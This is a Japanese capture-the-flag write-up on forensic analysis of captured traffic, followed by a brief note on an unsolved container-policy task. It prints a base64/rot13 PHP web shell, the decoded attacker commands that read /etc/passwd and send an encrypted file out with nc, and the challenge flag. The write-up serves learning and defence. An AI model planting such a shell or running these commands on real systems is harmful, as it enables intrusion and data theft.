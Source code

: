 このへんいかにもbase64してcreate.phpに書き込んでshell張ってます！という感じがしますね！CyberChefで該当部分をdecodeします。

```php
<?php if(isset($_POST['c'])){ system(base64_decode(str_rot13($_POST['c']))); } 
```

rot13してからbase64decodeして、それをexecしているようです。攻撃者はおそらくこれを使っているはずなので、この後の通信の `POST /create.php?` の `c=` の後の文字列をrot13してbase64decodeしていくと、

```
cat /etc/passwd
```

```
openssl aes-256-cbc -e -in flag.txt -out flag.enc -pass pass:change_option_e_to_d_for_decrypt 
```

```
nc -w 2 192.168.180.163 1337 < flag.enc
```

が見つかります。1337ポートの通信が気になります。`tcp.port == 1337`をして、Follow TCP Streamをして、1337宛ての通信を見てみると、以下のようなデータが出てきます。

```sh
# ascii
Salted__..<....K............ot5.x..SX........~.h.Y..].n....!.!..
# raw
53616c7465645f5fafde3cc7d1ab8e4bda00901bbbe2adc913f09faa6f7435d778fd2e5358a6e5b493f1dcffd37ea4688e5983e05dac6ef4a187f7219f21b00e
```

これのバイナリデータを取ってきて(確かYAMLにしたらbase64encodeされていたのでそれを使った)手元で以下のようにするとflagが書かれたテキストファイルが得られました。

```
openssl aes-256-cbc -d -in flag.enc -out flag -pass pass:change_option_e_to_d_for_decrypt
```

flag: `mc2021{H4PPY_M1N1C4MP_GR4DU4T10N}`

## 講師の方の解説を見て新しく知ったこと

Drupalであることはちらっと見て分かりましたが意識をしていなかったので、Drupalの脆弱性で今回使われているものを調べておこうと思います。

# DAY3 コンテナセキュリティ (解けなかった)

RegoでGatekeeper用のポリシーを実装する。SHA-256ハッシュ値 (例: ubuntu@sha256:45b23dee08af5e43a7fea6c4cf9c25ccf269ee113168c19722f87876677c5cb2)で指定されていなければrejectする。

## 時間中にやったこと

他の問題、特にDAY2 マルウェアのトラフィックを分析・検知してみようが一生うまく行かずにつらいなあとなって時間を消費していたので全く見ることができませんでした(ごめんなさい🙇)

後半で大ヒントが出題されて、正規表現ゲームになっていたので僕もいくつか正規表現を投げました。問題文は大ヒント部分しか読めていないです。(ごめんなさい...)

結果、惜しいところまでは行ったようです。

## 講師の方の解説を見て新しく知ったこと
